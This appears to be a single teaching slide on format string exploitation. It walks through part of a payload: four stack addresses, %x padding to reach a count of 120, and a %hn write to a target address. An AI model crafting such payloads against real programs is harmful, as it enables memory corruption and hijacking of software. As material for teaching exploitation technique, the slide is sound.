

# Format String Exploitation
Exploitation string starts with the four addresses separated by  characters (24 characters in total):
\xbc\xce\xff\xffAAAA\xbd\xce\xff\xffBBBB\xbe\xce\xff\xff\xbf\xce\xff\xff
We need to pop up four parameters to reach the addresses and get the counter to 0x78 (120):
%20x%20x%28x%28x
At this point we have printed 24 + 96 characters and we can use the %n format to write 120 at 0xffffcebc:
%hn